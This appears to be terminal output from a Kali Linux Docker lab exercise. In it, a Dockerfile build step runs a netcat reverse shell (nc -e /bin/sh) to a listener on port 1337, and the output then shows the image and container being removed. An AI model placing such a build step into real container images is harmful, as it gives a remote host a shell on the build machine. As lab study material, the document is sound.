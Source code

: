 ```
update-alternatives: warning: skip creation of /usr/share/man/man1/netcat.1.gz because associated file /usr/share/man/man1/nc.traditional.1.gz (of link group nc) doesn't exist
Setting up netcat (1.10-41) ...
Removing intermediate container 3cf7181978b9
 ---> 23337f1e3b6f
Step 4/4 : RUN nc -e /bin/sh 10.13.0.182 1337
 ---> Running in e97f9db86341

┌──(kali㉿kali)-[~]
└─$ nc -nvlp 1337      
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337

┌──(kali㉿kali)-[~/docker_rodeo]
└─$ sudo docker build .
Sending build context to Docker daemon  2.048kB
Step 1/4 : FROM debian:jessie-slim
 ---> 2045588e2542
Step 2/4 : RUN apt-get update -y
 ---> Using cache
 ---> 56de8c95c09f
Step 3/4 : RUN apt-get install netcat -y
 ---> Using cache
 ---> 23337f1e3b6f
Step 4/4 : RUN nc -e /bin/sh 10.13.0.182 1337
 ---> Running in 3102bd6c30f5

┌──(kali㉿kali)-[~/docker_rodeo]
└─$ sudo docker images 
REPOSITORY                             TAG           IMAGE ID       CREATED         SIZE
<none>                                 <none>        23337f1e3b6f   4 minutes ago   92.6MB


to remove a docker image, first remove the container and stop docker service

https://www.digitalocean.com/community/tutorials/how-to-remove-docker-images-containers-and-volumes

Stopping Service
┌──(kali㉿kali)-[~/docker_rodeo]
└─$ sudo systemctl stop docker  
Warning: Stopping docker.service, but it can still be activated by:
  docker.socket


Getting docker containers

┌──(kali㉿kali)-[~/docker_rodeo]
└─$ sudo docker ps -a                                    
CONTAINER ID   IMAGE                    COMMAND                  CREATED         STATUS                      PORTS     NAMES
e97f9db86341   23337f1e3b6f             "/bin/sh -c 'nc -e /…"   9 minutes ago   Exited (1) 7 minutes ago              suspicious_ardinghelli
b154d1c7b280   blockchain-demo:latest   "docker-entrypoint.s…"   2 months ago    Exited (137) 2 months ago             blockchain-demo-master_blockchain-demo_1

Removing container

┌──(kali㉿kali)-[~/docker_rodeo]
└─$ sudo docker rm e97f9db86341 
e97f9db86341
                                                                                     
┌──(kali㉿kali)-[~/docker_rodeo]
```